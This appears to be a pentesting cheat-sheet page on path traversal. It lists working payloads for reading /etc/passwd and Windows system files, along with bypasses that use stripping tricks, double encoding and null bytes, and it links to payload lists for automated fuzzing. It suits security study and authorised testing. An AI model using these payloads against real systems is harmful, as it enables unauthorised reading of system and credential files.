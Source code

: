 ```yaml
---
title: "Path traversal"
weight: 19
description: "Explore path traversal vulnerabilities, including bypass techniques and exploitation methods. Learn how attackers use encoding, double encoding, and null bytes to access restricted files on servers."
---
```


# Path traversal

## General info

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

---

## Bypass defenses

* Elimination (strip): `../` -> `....//`
  * Test: try to change the original request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` -> `%2e%2e%2f`
* Double-encode: `../` -> `%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

{{< hint style=notes >}}
**Note**: On Windows, both `../` and `..\` are valid directory traversal sequences.
{{< /hint >}}

---

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist extension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

---

## Common files

**Linux**: 
- https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

**Windows**: 
- Short list: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt
- Long list: https://github.com/soffensive/windowsblindread/tree/master

{{< hint style=tips >}}
**Tip**: On Windows, you can also try using a different drive letter than *C:*.
{{< /hint >}}

---

## Identify Windows version

1. Retrieve a Microsoft executable from the target system:
   - `C:/Windows/explorer.exe`
   - `C:/Windows/notepad.exe`
   - `C:/Windows/system32/ntoskrnl.exe`

2. Check version information:

    ```bash
    exiftool explorer.exe

    [...]
    OS Version                      : 10.0
    Image Version                   : 10.0
    Subsystem Version               : 10.0
    Subsystem                       : Windows GUI
    File Version Number             : 10.0.14393.7513
    Product Version Number          : 10.0.14393.7513
    File Flags Mask                 : 0x003f
    File Flags                      : (none)
    File OS                         : Windows NT 32-bit
    Object File Type                : Executable application
    File Subtype                    : 0
    Language Code                   : English (U.S.)
    Character Set                   : Unicode
    Company Name                    : Microsoft Corporation
    File Description                : Windows Explorer
    File Version                    : 10.0.14393.7513 (rs1_release.241021-1750)
    Internal Name                   : explorer
    Legal Copyright                 : © Microsoft Corporation. All rights reserved.
    Original File Name              : EXPLORER.EXE
    Product Name                    : Microsoft® Windows® Operating System
    Product Version                 : 10.0.14393.7513
    [...]
    ```

3. Compare the version number with the following official table: https://learn.microsoft.com/en-us/windows/win32/sysinfo/operating-system-version.

{{< hint style=tips >}}
**Tip**: Some operating systems may share the same version name (e.g., Windows 10 and Windows 11), which can make identification tricky. To accurately determine the OS version, check the build number (e.g., `14393`) and refer to this resource: https://www.gaijin.at/en/infos/windows-version-numbers.
Alternatively, you can search the product version on Google for more information.
{{< /hint >}}



---

## Automation

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;
